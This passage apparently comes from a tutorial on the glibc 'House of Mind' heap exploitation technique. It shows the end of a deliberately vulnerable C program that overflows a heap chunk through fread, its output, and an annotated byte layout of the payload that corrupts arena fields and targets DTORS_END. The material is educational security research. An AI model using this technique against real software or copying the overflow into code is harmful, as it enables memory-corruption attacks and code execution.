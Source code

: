``` c

  printf("ptr found at %p\n", ptr);

  // i == 2 because this is my second chunk to allocate
  for (i = 2; i < 1024; i++)
  {
    if (((int)(ptr2 = malloc(1024)) & 0xFFF00000) == (heap + 0x100000))
    {
      printf("good heap alignment found on malloc() %i (%p)\n", i, ptr2);
      break;
    }
  }

  malloc(1024); // ptr2 can't be av->top
  fread (ptr, 1024 * 1024, 1, stdin); // the overflow on ptr

  free(ptr);
  free(ptr2); // The House of Mind
  return 0;
}
```
and obtained the following output  
```
 ptr found at 0x804a008
good heap alignment found on malloc() 724 (0x81002a0)
```
The exploit he wrote is shown and described below:  
```
 0xAA 0xAA 0xAA 0xAA            will be overwritten with garbage by free()
0xAA 0xAA 0xAA 0xAA            will be overwritten with garbage by free()

0x00 0x00 0x00 0x00            av->mutex = 0

0x02 0x01 0x00 0x00            -\
0x02 0x01 0x00 0x00             |
0x02 0x01 0x00 0x00             | av->max_fast = 0x102 = 258
0x02 0x01 0x00 0x00             | (written multiple times just to be
0x02 0x01 0x00 0x00             | sure of hitting it)
0x02 0x01 0x00 0x00             |
0x02 0x01 0x00 0x00             |
0x02 0x01 0x00 0x00            -/

0x...  DTORS_END-12            -\
0x...  DTORS_END-12             | av->bins[0]
[...]                           | repeated 246 times 
0x...  DTORS_END-12            -/

0x09 0x04 0x00 0x00 malloc'ed chunk's size    -\
0x41 0x41 0x41 0x41 -\                         |
[...]                | garbage data * 257      |
0x41 0x41 0x41 0x41 -/                         | repeated 721 times
[...]                                          | (all the chunks)
0x09 0x04 0x00 0x00                            |
0x41 0x41 0x41 0x41                            |
[...]                                          |
0x41 0x41 0x41 0x41                           -/

0x09 0x04 0x00 0x00           size
1ST CHUNK ADDR + 8            -\
1ST CHUNK ADDR + 8             | this is the memory address returned that
1ST CHUNK ADDR + 8             | will be returned by heap_for_ptr: it is
1ST CHUNK ADDR + 8             | necessary to write the correct address for
[...]                          | ar_ptr here (256 times)
1ST CHUNK ADDR + 8            -/
```